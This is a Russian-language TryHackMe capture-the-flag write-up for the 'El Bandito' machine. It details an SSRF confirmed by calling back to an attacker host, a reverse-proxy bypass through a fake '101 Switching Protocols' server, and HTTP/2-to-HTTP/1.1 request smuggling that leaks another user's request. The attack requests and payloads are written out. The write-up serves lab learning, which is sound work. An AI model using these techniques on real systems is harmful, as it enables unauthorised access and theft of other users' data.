# El Bandito

> Исследование двух веб-приложений с SSRF, обходом frontend-прокси через `101 Switching Protocols` и несогласованной обработкой HTTP/2/HTTP/1.1, позволившей получить данные другого пользователя.

## Общая информация

| Параметр | Значение |
| --- | --- |
| Платформа | TryHackMe |
| ОС | Ubuntu Linux |
| Категория | Web / HTTP Protocol |
| Основные техники | SSRF, reverse-proxy bypass, WebSocket upgrade abuse, Spring Boot endpoint enumeration, несогласованная обработка HTTP/2 и HTTP/1.1 |

## Краткое резюме

На порту `8080` был найден endpoint `/isOnline`, выполнявший серверные запросы к указанному URL. Поведение `nginx` показало фильтрацию запрещённых путей на frontend. Ответ подконтрольного сервера `101 Switching Protocols` позволил перевести соединение в состояние, при котором следующий HTTP-запрос достигал backend-приложения в обход обычной фильтрации. Через Spring Boot `/mappings/` были обнаружены `/admin-flag` и `/admin-creds`, что позволило получить первый флаг и данные для второго приложения.

Во втором приложении запросы к `/send_message` проходили через цепочку HTTP/2 → HTTP/1.1. Добавление несогласованных `Content-Length` и дополнительного запроса показало различие в трактовке границ сообщений. Повторная отправка подготовленного запроса позволила получить через `/getMessages` фрагменты запроса другого пользователя, включая второй флаг.

## Разведка

### Первичное сканирование TCP-портов

Первичное сканирование TCP-портов целевой машины было выполнено с помощью утилиты `nmap`:

```bash
nmap -sV -O -n -p- TARGET_IP
```

В результате сканирования были обнаружены следующие открытые порты и соответствующие им сервисы:

```text
Nmap scan report for TARGET_IP
Host is up (0.00049s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  ssl/http El Bandito Server
631/tcp  open  ipp      CUPS 2.4
8080/tcp open  http     nginx
```

### Поиск директорий

Для поиска доступных директорий и файлов была использована утилита `gobuster`.

Сканирование веб-сервиса на порту `8080` выполнялось следующей командой:

```shell
gobuster dir -u http://TARGET_IP:8080 -w '/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt' -x php,js,html,py,log,txt,log,bak,old,conf,zip,sql -b 403,404
```

В результате были обнаружены следующие ресурсы:

```text
/index.html           (Status: 200) [Size: 557]
/services.html        (Status: 200) [Size: 3791]
/info                 (Status: 200) [Size: 2]
/health               (Status: 200) [Size: 150]
/assets               (Status: 200) [Size: 0]
/error                (Status: 500) [Size: 88]
/burn.html            (Status: 200) [Size: 8374]
/token                (Status: 200) [Size: 8]
/token.js             (Status: 200) [Size: 8]
/token.py             (Status: 200) [Size: 8]
/token.html           (Status: 200) [Size: 8]
/token.bak            (Status: 200) [Size: 8]
/token.log            (Status: 200) [Size: 8]
/token.zip            (Status: 200) [Size: 8]
/token.php            (Status: 200) [Size: 8]
/token.txt            (Status: 200) [Size: 8]
/token.old            (Status: 200) [Size: 8]
/token.conf           (Status: 200) [Size: 8]
/token.sql            (Status: 200) [Size: 8]
```

Аналогичное сканирование было выполнено для веб-сервиса на порту `80`:

```shell
gobuster dir -u https://TARGET_IP:80 -w '/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt' -x php,js,html,py,log,txt,log,bak,old,conf,zip,sql -k
```

```text
/login                (Status: 405) [Size: 153]
/static               (Status: 301) [Size: 169]
/access               (Status: 200) [Size: 4817]
/messages             (Status: 302) [Size: 189] []] /]
/logout               (Status: 302) [Size: 189] []] /]
/save                 (Status: 405) [Size: 153]
/ping                 (Status: 200) [Size: 4]
```

## Анализ веб-приложений

Дальнейшее исследование веб-приложений проводилось с использованием `Burp Suite`.

Анализ ответов сервера показал, что ответы с кодом `403 Forbidden` формируются frontend-прокси `nginx`. Это подтверждалось HTTP-заголовками ответа и исходным кодом страницы ошибки:



Дополнительное исследование поведения `nginx` показало, что прокси возвращает код `403` только в тех случаях, когда запрещённое выражение располагается в начале пути запроса:





На основании текста возвращаемых ошибок также было установлено, что в качестве frontend используется `nginx`, а backend-приложение реализовано на `Spring Boot` (`Java`).

### Исследование `/services.html`

Ресурс `/services.html` отображает состояние доступности сервисов:



Анализ сетевых запросов в `Burp Suite` показал, что приложение взаимодействует с сервисом на порту `8081`:



После загрузки страницы браузер отправляет запросы к следующему endpoint:

```text
/isOnline?url=http://bandito.websocket.thm
```

Для проверки возможности SSRF на машине атакующего был запущен `netcat`:

```shell
nc -lvnp PORT
```

После этого значение параметра `url` было изменено на адрес машины атакующего:

```text
http://ATTACKER_IP:PORT
```



После отправки изменённого запроса на стороне `netcat` был получен входящий `GET`-запрос. Таким образом, возможность выполнения сервером HTTP-запросов к произвольному адресу была подтверждена, что свидетельствовало о наличии SSRF.

### Исследование `/burn.html`

Ресурс `/burn.html` содержит форму для «сжигания» токенов:


В исходном коде страницы был обнаружен скрипт `/app.js`, доступ к которому на данном этапе отсутствовал, а также встроенный JavaScript-код, реализующий взаимодействие клиента с сервером через WebSocket:

```js
<script type="text/javascript">
      const date = new Date().getFullYear();
      document.getElementById("current-date").innerHTML = date;

      $(document).ready(function () {
    var webSocket;
    var wsUri = (window.location.protocol === 'https:' ? 'wss://' : 'ws://') + window.location.host + '/ws'; // Adjust the '/ws' if your WebSocket endpoint differs
    function initWebSocket() {
        webSocket = new WebSocket(wsUri);

        webSocket.onopen = function(event) {
            console.log("WebSocket is open now.");
        };

        webSocket.onmessage = function(event) {
            console.log("Message from server: ", event.data);
            $("#response").text(event.data); // Displaying the response from the server
        };

        webSocket.onerror = function(event) {
            console.error("This service is not working on purpose ;)", event);
        };

        webSocket.onclose = function(event) {
            console.log("WebSocket is closed now.");
        };
    }

    initWebSocket();

    // Form submission with WebSocket
    $("#token-burn").submit(function (event) {
        event.stopPropagation();
        event.preventDefault();
        console.log("here");

        if(webSocket.readyState === WebSocket.OPEN) {
            var message = {
                action: "burn",
                address: $("#address").val(),
                amount: $("#amount").val()
            };
            webSocket.send(JSON.stringify(message));
        } else {
            console.error("WebSocket is not open.");
        }
    });
});
    </script>
```

Согласно запросам, перехваченным с помощью `Burp Suite`, сразу после загрузки `/burn.html` клиент пытается установить WebSocket-соединение с сервером, однако получает ответ с кодом `404 Not Found`:



### Обход прокси

На основании наблюдаемой логики работы `nginx` была выдвинута гипотеза о возможности обхода фильтрации путём имитации успешного перехода на WebSocket и последующей передачи дополнительного HTTP-трафика через установленное соединение. Для проверки гипотезы были использованы ранее обнаруженная SSRF и собственный HTTP-сервер на машине атакующего.

На машине атакующего был создан HTTP-сервер, отвечающий на любой входящий запрос кодом `101 Switching Protocols`:

Сервер запускался следующей командой:

```shell
root@attacker$ python3 server.py PORT
```

После этого был сформирован и отправлен изменённый `GET`-запрос к уязвимому ресурсу `/isOnline`. Полученный ответ содержал как ответ прокси с кодом `101 Switching Protocols`, так и ответ сервера на второй запрос, сообщавший об отсутствии ресурса `/admin`:



Такое поведение подтвердило возможность создания «туннеля» между клиентом и сервером: второй запрос, содержащий запрещённый путь `/admin*`, достиг backend-приложения и не был отфильтрован прокси.

В дальнейшем под **туннелированным запросом** подразумевается второй HTTP-запрос, отправляемый сразу после установления описанного «туннеля».

### Дополнительные наблюдения

В ходе дальнейшего тестирования было установлено, что следующий составной запрос приводит к недоступности сервера, то есть к отказу в обслуживании:

```http
GET /isOnline?url=http://10.113.95.132:8315 HTTP/1.1
Host: 10.113.187.147:8080
User-Agent: Mozilla/5.0
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: jR2k0d64bW/gPwLskiQF8w==

GET /isOnline?url=http://localhost:8081/ HTTP/1.1
Host: 10.113.187.147:8080
```

#### Дополнительное сканирование

Для получения дополнительной информации о веб-сервисах было выполнено сканирование портов `80` и `8080` с использованием NSE-скрипта `http-enum`:

```shell
nmap -p 80,8080 --script http-enum TARGET_IP
```

```text
PORT     STATE SERVICE
80/tcp   open  http
8080/tcp open  http-proxy
| http-enum:
|   /configprops/: Spring Boot Actuator endpoint
|   /health/: Spring Boot Actuator endpoint
|_  /mappings/: Spring Boot Actuator endpoint
```

Ресурс `/mappings/` содержал перечень доступных endpoints, среди которых были обнаружены `/admin-flag` и `/admin-creds`.

### Получение первого флага

После обнаружения административных endpoints был отправлен туннелированный запрос к `/admin-flag`. В ответе сервера содержался первый флаг:



### Исследование второго веб-приложения

Запрос к `/admin-creds` возвращал учётные данные для авторизации. Полученные данные были использованы на ресурсе `TARGET_IP:80/access`.

После успешной авторизации веб-приложение перенаправляло пользователя к ресурсу `/static/messages.js`. Анализ его исходного кода показал наличие функций для получения и отправки сообщений на сервер.

Функция получения сообщений:

```js
// Function to fetch messages from the server
	function fetchMessages() {
		fetch("/getMessages")
			.then((response) => {
				if (!response.ok) {
					throw new Error("Failed to fetch messages");
				}
				return response.json();
			})
			.then((messages) => {
				userMessages = messages;
				userMessages.JACK === undefined
					? (userMessages = { OLIVER: messages.OLIVER, JACK: [] })
					: userMessages.OLIVER === undefined &&
					  (userMessages = { JACK: messages.JACK, OLIVER: [] });

				displayMessages("JACK");
			})
			.catch((error) => console.error("Error fetching messages:", error));
	}
```

Функция отправки сообщений:

```js
// Function to send a message to the server
	function sendMessage() {
		const messageText = writeMessageInput.value.trim();
		if (messageText !== "") {
			const activeUser = headerName.innerText;
			const urlParams = new URLSearchParams(window.location.search);
			const isBot =
				urlParams.has("msg") && urlParams.get("msg") === messageText;

			const messageData = {
				message: messageText,
				sender: isBot ? "Bot" : activeUser, // Set the sender as "Bot"
			};
			userMessages[activeUser].push(messageData);
			appendMessage(messageText);
			writeMessageInput.value = "";
			scrollToBottom();
			console.log({ activeUser });
			fetch("/send_message", {
				method: "POST",
				headers: {
					"Content-Type": "application/x-www-form-urlencoded",
				},
				body: "data="+messageText
			})
				.then((response) => {
					if (!response.ok) {
						throw new Error("Network response was not ok");
					}
					console.log("Message sent successfully");
				})
				.catch((error) => {
					console.error("Error sending message:", error);
					// Handle error (e.g., display error message to the user)
				});
		}
	}
```

Для получения и последующего анализа запроса к серверу через интерфейс приложения было отправлено произвольное сообщение:



Перехваченный с помощью `Burp Suite` запрос использовал протокол HTTP/2.

#### Понижение HTTP/2-запроса до HTTP/1.1

Для проверки особенностей обработки запросов в перехваченный HTTP/2-запрос был добавлен заголовок:

```http
Content-Length: 0
```

Кроме того, в запрос была добавлена следующая последовательность:

```http
GET /ping HTTP/1.1
Foo: x
```

В ответе сервера содержалась строка `pong`, соответствующая ответу ресурса `/ping` при обращении по HTTP/1.1. Это подтвердило возможность понижения HTTP/2-запроса до HTTP/1.1 в рассматриваемой цепочке обработки:



#### Получение второго флага

Для дальнейшей эксплуатации на ресурс `/send_message` был отправлен «двойной» HTTP POST-запрос. Второй запрос содержал заголовок `Content-Length: 1024`, однако не содержал тела.

Идея заключалась в том, что последующие запросы других пользователей могли быть интерпретированы сервером как часть ранее отправленного запроса. В таком случае при последующем обращении к `/getMessages` сервер мог вернуть данные, содержащие фрагменты запросов других пользователей.



Примерно в течение одной минуты подготовленный запрос отправлялся повторно с интервалом `3–5` секунд, после чего был выполнен запрос к `/getMessages`:



В ответе были обнаружены данные запроса другого пользователя, однако первоначально они были неполными. Для получения полного запроса значение заголовка `Content-Length` было увеличено с `800` до `1024`.

После нескольких повторных запросов в полученном ответе был обнаружен второй флаг.

## Итог

В ходе исследования машины **El Bandito** была последовательно проанализирована доступная сетевая поверхность и логика работы двух веб-приложений. Первоначальная разведка позволила определить открытые сервисы и обнаружить набор доступных веб-ресурсов. Анализ `/services.html` привёл к выявлению SSRF, с помощью которой стало возможным инициировать запросы от имени backend-приложения.

Дальнейшее исследование взаимодействия между `nginx` и backend-приложением показало возможность обхода прокси-фильтрации посредством имитации успешного переключения протокола с ответом `101 Switching Protocols`. Это позволило направлять туннелированные запросы к ранее недоступным административным endpoints, обнаруженным через `/mappings/`, и получить первый флаг, а также учётные данные для доступа ко второму веб-приложению.

На заключительном этапе были исследованы механизмы отправки и получения сообщений во втором приложении. Особенности обработки HTTP/2- и HTTP/1.1-запросов позволили сформировать составной запрос таким образом, чтобы в ответе `/getMessages` оказались данные запроса другого пользователя. После корректировки значения `Content-Length` был получен полный необходимый фрагмент данных, содержащий второй флаг.

Таким образом, оба флага были получены за счёт последовательного сочетания результатов разведки, анализа серверной логики и особенностей обработки HTTP-трафика на различных уровнях приложения.

## Ключевые выводы

- Фильтрация URL на frontend-прокси не гарантирует защиту backend, если существуют альтернативные режимы передачи трафика после protocol upgrade.
- Ответ `101 Switching Protocols` меняет модель обработки соединения и может создавать неожиданные пути обхода между proxy и backend.
- Spring Boot Actuator-подобные mapping endpoints способны раскрывать административные маршруты, даже если сами маршруты фильтруются.
- Несогласованная интерпретация длины HTTP-сообщения на разных уровнях прокси-цепочки может привести к смешению запросов и утечке данных других пользователей.

## Использованные инструменты

| Инструмент | Использование |
| --- | --- |
| `Nmap` | Сканирование портов и `http-enum` |
| `Gobuster` | Перечисление ресурсов на двух HTTP-сервисах |
| `Burp Suite` | Анализ HTTP/WebSocket-трафика и составных запросов |
| `Netcat` | Подтверждение SSRF |
| `Python` | HTTP-сервер, отвечающий `101 Switching Protocols` |

## Примечание

> Материал подготовлен в образовательных целях. Все действия выполнялись в контролируемой лабораторной среде TryHackMe.
